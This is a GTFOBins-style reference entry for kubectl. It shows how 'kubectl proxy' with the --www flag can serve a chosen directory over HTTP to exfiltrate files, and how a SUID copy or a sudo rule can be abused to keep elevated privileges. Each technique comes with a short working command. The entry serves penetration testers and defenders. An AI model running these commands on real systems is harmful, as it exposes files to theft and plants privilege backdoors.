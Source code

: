 # GTFOBin: kubectl

It serves files from a specified directory via HTTP, i.e., `http://<IP>:4444/x/<file>`.

## File upload

It can exfiltrate files on the network.

```
LFILE=dir_to_serve
kubectl proxy --address=0.0.0.0 --port=4444 --www=$LFILE --www-prefix=/x/
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which kubectl) .

LFILE=dir_to_serve
./kubectl proxy --address=0.0.0.0 --port=4444 --www=$LFILE --www-prefix=/x/
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=dir_to_serve
sudo kubectl proxy --address=0.0.0.0 --port=4444 --www=$LFILE --www-prefix=/x/
```